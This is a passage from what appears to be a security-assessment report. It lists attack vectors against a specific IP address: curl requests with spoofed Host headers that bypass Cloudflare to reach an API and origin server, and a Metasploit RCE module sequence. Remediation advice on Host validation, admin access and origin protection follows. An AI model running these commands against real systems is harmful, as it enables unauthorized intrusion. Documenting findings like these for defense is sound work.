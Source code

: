 ### 📋 Attack Vector 2: API Endpoint Exploitation
```bash
# Direct API access
curl -H "Host: app.com" http://172.67.68.228/api
# Expected: 200 OK - API endpoint exposure
```

### 📋 Attack Vector 3: Origin Server Direct Attack
```bash
# Direct origin access bypassing Cloudflare
curl -H "Host: web3.com" http://172.67.68.228/
# Expected: 200 OK - Origin server direct access
```

### 📋 Attack Vector 4: CVE Exploitation
```bash
# Metasploit exploitation
msfconsole
use exploit/linux/http/cve_2025_1004_rce
set RHOSTS 172.67.68.228
set RPORT 80
exploit
```

---

## 🔒 REMEDIATION RECOMMENDATIONS

### 🚨 IMMEDIATE ACTIONS (Critical Priority)

1. **Fix Host Header Validation**
   ```
   - Implement strict Host header validation
   - Whitelist only legitimate host names
   - Reject requests with unauthorized Host headers
   - Configure proper virtual host restrictions
   ```

2. **Secure Administrative Interfaces**
   ```
   - Remove public access to /admin and /panel
   - Implement IP whitelisting for admin access
   - Add additional authentication layers
   - Move admin interfaces to separate, secured endpoints
   ```

3. **Origin Server Protection**
   ```
   - Configure origin server to only accept Cloudflare IPs
   - Implement proper access controls on origin
   - Block direct IP access to origin server
   - Configure reverse proxy authentication
   ```
